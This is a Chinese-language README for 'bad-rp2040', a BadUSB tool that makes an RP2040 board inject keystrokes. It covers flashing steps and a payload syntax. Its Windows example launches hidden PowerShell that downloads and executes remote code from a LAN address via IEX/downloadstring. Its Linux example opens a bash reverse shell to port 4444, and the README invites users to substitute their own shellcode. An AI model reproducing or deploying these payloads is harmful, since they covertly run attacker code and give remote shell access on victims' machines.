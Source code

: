 # bad-rp2040

<div style="text-align: center;">
    <img src="https://s2.loli.net/2024/12/05/EVOFhpTyHABv9Na.webp" alt="logo.webp" style="zoom:40%;" />
</div>


## 使用教程

虽然名字叫做bad-rp2040，但理论上它可以支持其他能够使用CircuitPython的板子。

* 第一步
  
  按住BOOT按键进入烧入模式从[这里](https://circuitpython.org/board/raspberry_pi_pico/)找到合适的CircuitPython固件烧入

* 第二步
  
  烧入完成后再下载项目文件，修改payload.txt为你想要的内容，之后写入磁盘模式的开发板

* 第三步
  
  重新插拔开发板，不出意外开发板会自动模拟按键输入编写好的payload


### payload语法

> 目前尚在开发中，很多功能并不全面画横线的表示正在开发中

可用案例：

#### windows

```badusb
set Time 1
POWERSHELL
TOGGLE_INPUT
ECHO powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.255.1:8029/a'))"
```

#### linux

```badusb
set Time 1
LINUX_OPENSHELL
LINUX_RESHELL 127.0.0.1 4444
```

将最后的echo内容替换为你的shellcode即可

内置了快捷使用的模块

| 命令     | 作用                       |
-----------|---------------------------|
| POWERSHELL | 快速拉起powershell     |
| TOGGLE_INPUT | 快速切换输入法     |
| LINUX_OPENSHELL | 快速拉起linux shell   |
| LINUX_RESHELL | 使用bash -i反弹shell模板   |
| ECHO | 输出字符串     |

根据需求调用即可，echo语句用于输出字符串

### 语法表

| 命令     | 作用                       |
-----------|---------------------------|
| set Time | 设置命令隔时间 不建议太快    |

#### 注意

如自行编写payload.txt，请注意windows的自动大小写问题

### 后续开发计划

短期
* 完成目前列出的所有模组
* 完成计划的语法

长期
* 是否可以做到监听键盘输入

![run](https://s2.loli.net/2024/12/04/d4NjluG9nEImwUB.png)
![shell](https://s2.loli.net/2024/12/04/oTHgaxBFnsqUGNM.png)
![linux](https://s2.loli.net/2024/12/05/s46Hu5qOYEkiKX3.png)